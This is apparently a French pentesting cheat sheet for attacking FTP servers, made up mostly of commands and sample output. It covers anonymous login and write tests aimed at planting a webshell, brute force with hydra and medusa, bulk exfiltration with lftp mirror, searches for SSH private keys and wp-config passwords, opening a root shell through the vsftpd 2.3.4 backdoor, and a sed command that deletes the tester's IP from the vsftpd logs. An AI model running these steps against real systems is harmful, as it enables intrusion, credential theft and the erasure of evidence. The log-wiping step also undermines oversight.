

## Identification du service

### Détection du port FTP (21)

L'identification de la version du service est une étape préalable à toute recherche d'exploit.

```bash
nmap -p 21 -sV --script=ftp-* target.com
```

Sortie indicative :
```text
21/tcp open  ftp  vsftpd 3.0.2
```

### Détection complète avec bannière

La bannière permet d'identifier précisément la version du serveur **vsftpd**.

```bash
nc target.com 21
```

Sortie indicative :
```text
220 vsFTPd 3.0.3 Server (Linux) ready.
```

## Configuration SSL/TLS (FTPS)

Le protocole FTP transmet les identifiants en clair. L'utilisation de FTPS (FTP over SSL/TLS) est une mesure de sécurité courante.

### Détection du support TLS

```bash
nmap -p 21 --script ftp-ssl-check target.com
```

### Connexion sécurisée

Si le serveur exige TLS, utilisez un client compatible comme `lftp` :

```bash
lftp -u user,password -e "set ftp:ssl-force true; set ssl:verify-certificate no" target.com
```

## Accès anonyme

L'accès **anonymous** permet potentiellement de lire ou d'écrire des fichiers sans authentification.

> [!tip]
> Toujours vérifier les permissions d'écriture sur le serveur FTP pour tenter un upload de webshell.

### Connexion FTP en mode anonyme

```bash
ftp target.com
# Identifiant : anonymous
# Mot de passe : (laisser vide ou mettre n'importe quoi)
```

Sortie indicative :
```text
230 Login successful.
```

### Test automatique avec Nmap

```bash
nmap -p 21 --script=ftp-anon target.com
```

Sortie indicative :
```text
| ftp-anon: Anonymous FTP login allowed
```

## Analyse des permissions (Write/Execute)

Il est crucial de déterminer si le répertoire racine ou les sous-répertoires permettent l'écriture ou l'exécution de fichiers.

### Test d'écriture

```bash
ftp> put local_test.txt
```

### Interprétation des résultats

| Code retour | Signification |
| :--- | :--- |
| `226 Transfer complete` | Écriture autorisée |
| `550 Permission denied` | Écriture interdite |

## Énumération de fichiers

L'énumération permet d'identifier des fichiers sensibles ou des configurations mal sécurisées, souvent traitées dans le cadre de **Linux Post-Exploitation**.

### Lister les fichiers disponibles

```bash
ftp target.com
ls -la
```

Sortie indicative :
```text
-rw-r--r--  1 ftp  ftp  1024 Dec 10  2024 passwords.txt
```

### Téléchargement de fichiers

```bash
get passwords.txt
```

### Automatisation avec Python

L'utilisation de **ftplib** permet d'automatiser la récupération de fichiers.

```python
from ftplib import FTP

ftp = FTP('target.com')
ftp.login('anonymous', 'anonymous')
ftp.retrlines('LIST')
ftp.quit()
```

## Bruteforce

Le bruteforce est une technique active permettant de tester des combinaisons d'identifiants.

> [!danger]
> Le bruteforce peut déclencher des mécanismes de verrouillage de compte (Account Lockout).

> [!warning]
> Prérequis : Assurez-vous d'avoir une liste de mots de passe pertinente (wordlist) avant de lancer **hydra**.

### Utilisation de Hydra

```bash
hydra -L users.txt -P passwords.txt ftp://target.com
```

Sortie indicative :
```text
[21][ftp] host: target.com   login: admin   password: 123456
```

### Utilisation de Medusa

```bash
medusa -h target.com -U users.txt -P passwords.txt -M ftp
```

Sortie indicative :
```text
Host: target.com User: admin Password: admin123
```

## Recherche de fichiers sensibles

La recherche de fichiers sensibles est une étape clé pour l'exfiltration de données ou la découverte de vecteurs d'attaque (voir **File Transfer Techniques**).

### Fichiers cibles

| Type de fichier | Description |
| :--- | :--- |
| `passwd.txt` / `passwords.csv` | Identifiants en clair |
| `config.xml` / `web.config` | Fichiers de configuration |
| `.bash_history` | Historique des commandes shell |
| `.ssh/id_rsa` | Clés privées SSH |
| `backup.zip` / `db.sql` | Sauvegardes de bases de données |

## Techniques d'exfiltration de données

Une fois l'accès obtenu, l'exfiltration peut être réalisée via le protocole lui-même.

### Exfiltration massive

```bash
# Téléchargement récursif via lftp
lftp -u user,password target.com -e "mirror /remote/dir /local/dir; quit"
```

## Post-exploitation (recherche de clés SSH, fichiers de config)

Après avoir accédé au système de fichiers, recherchez des éléments permettant une élévation de privilèges ou un mouvement latéral, en lien avec **Linux Post-Exploitation**.

### Recherche de clés SSH

```bash
# Recherche récursive de clés privées
find / -name "id_rsa" 2>/dev/null
```

### Analyse des fichiers de configuration

Vérifiez les fichiers de configuration web (ex: `wp-config.php`) pour extraire des identifiants de base de données.

```bash
cat /var/www/html/wp-config.php | grep DB_PASSWORD
```

## Exploitation de vulnérabilités connues

### vsftpd 2.3.4 Backdoor

> [!danger]
> L'exploitation de la backdoor **vsftpd 2.3.4** est très bruyante et détectable par les IDS/IPS.

### Vérification de la version

```bash
nc target.com 21
```

Sortie indicative :
```text
220 (vsFTPd 2.3.4)
```

### Exploitation (Ouverture d'un shell root)

```bash
nc target.com 6200
```

Sortie indicative :
```text
id
uid=0(root) gid=0(root) groups=0(root)
```

## Nettoyage des traces

Il est impératif de supprimer les fichiers temporaires ou les webshells déposés durant le test.

### Suppression des fichiers déposés

```bash
# Supprimer un fichier via FTP
ftp> delete shell.php
```

### Nettoyage des logs (si accès root obtenu)

```bash
# Effacer les entrées liées à votre IP dans les logs
sed -i '/<votre_ip>/d' /var/log/vsftpd.log
```

## Résumé des techniques

| Étape | Commande |
| :--- | :--- |
| Détection du service FTP | `nmap -p 21 -sV target.com` |
| Vérification accès anonyme | `ftp target.com` |
| Lister les fichiers | `ls -la` |
| Télécharger un fichier | `get fichier.txt` |
| Bruteforce des identifiants | `hydra -L users.txt -P passwords.txt ftp://target.com` |
| Rechercher fichiers sensibles | `ls -la` |
| Vérifier version vulnérable | `nc target.com 21` |
| Exploiter vsftpd 2.3.4 | `nc target.com 6200` |
```